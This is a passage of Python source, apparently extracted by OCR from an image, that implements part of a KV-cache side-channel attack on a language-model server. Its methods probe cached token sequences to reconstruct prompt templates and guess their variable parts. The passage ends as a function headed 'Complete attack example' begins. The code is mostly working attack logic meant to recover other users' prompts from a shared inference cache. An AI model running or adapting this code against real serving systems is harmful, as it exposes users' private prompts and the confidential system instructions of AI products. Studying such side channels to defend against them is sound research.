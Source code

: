 ```python
        
        return current_sequence
    
    def extract_variables(self, template):
        """Try to extract variable parts of the prompt"""
        print(f"\nLooking for variable content in template...")
        
        # Common variable patterns
        variable_patterns = [
            ["this", "code"], ["this", "problem"], ["this", "data"],
            ["following", "text"], ["below", "information"],
            ["my", "project"], ["our", "system"], ["the", "issue"]
        ]
        
        variables_found = []
        
        for pattern in variable_patterns:
            test_sequence = template + pattern
            
            if self.monitor.probe_token_sequence(test_sequence):
                print(f"Found variable pattern: '{' '.join(pattern)}'")
                variables_found.append(pattern)
        
        return variables_found
    
    def full_reconstruction(self, max_attempts=50):
        """Complete prompt reconstruction process"""
        print("Starting full prompt reconstruction...")
        
        # Step 1: Find initial cached prefix
        initial_probe = TokenProber(self.monitor)
        base_prefix = initial_probe.find_cached_prefix()
        
        if not base_prefix:
            print("No cached tokens found")
            return None
        
        # Step 2: Reconstruct template
        full_template = self.reconstruct_template(base_prefix)
        
        # Step 3: Extract variables
        variables = self.extract_variables(full_template)
        
        # Step 4: Attempt to reconstruct full prompt
        reconstructed_prompt = " ".join(full_template)
        
        if variables:
            reconstructed_prompt += " [VARIABLE_CONTENT]"
        
        print(f"\nRECONSTRUCTION COMPLETE:")
        print(f"Template: '{' '.join(full_template)}'")
        print(f"Variables: {variables}")
        print(f"Full prompt: '{reconstructed_prompt}'")
        
        return {
            'template': full_template,
            'variables': variables,
            'full_prompt': reconstructed_prompt
        }

# Complete attack example
def run_complete_attack(server_url):
    """Run the complete KV-cache side-channel attack"""
```